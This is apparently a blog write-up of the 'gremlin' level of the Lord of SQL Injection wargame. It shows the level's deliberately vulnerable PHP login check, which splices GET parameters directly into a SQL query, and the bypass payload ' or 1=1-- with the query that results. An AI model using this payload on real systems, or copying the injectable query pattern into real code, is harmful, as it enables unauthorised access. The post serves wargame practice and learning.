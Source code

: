 ```yaml
---
layout: post
title:  "los prob_gremlin"
date:   2019-08-10
excerpt: "Lord of Sql Injection"
tag:
- los
- sqli
- wargame
- webhacking
comments: true
---
```

>query: select id from prob_gremlin where id='' and pw=''
~~~ php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
~~~

#Solve
딱히 필터링이 없으므로 바로 sql injection 구문을 넣으면 된다. 

?id=' or 1=1-- 

실행되는 구문 -> select id from prob_gremlin where id='' or 1=1-- ' and pw=''

##GREMLIN Clear!
